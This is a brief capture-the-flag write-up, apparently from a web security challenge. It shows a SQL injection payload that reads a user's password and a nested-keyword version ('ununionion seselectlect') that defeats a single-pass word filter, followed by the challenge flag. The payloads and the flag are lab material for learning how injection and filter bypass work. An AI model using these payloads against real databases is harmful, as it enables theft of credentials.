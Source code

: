 Oh no, a wordlist filter. What shall I do?

My previous payload `1 = 2 union select 1,password from users where id=1 --` no longer works

It removes `union`, `select`, and `from`. Does it do multiple passes? 

`1 = 2 ununionion seselectlect 1,password frfromom users where id=1 --`

Apparently not.
Flag is `WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`
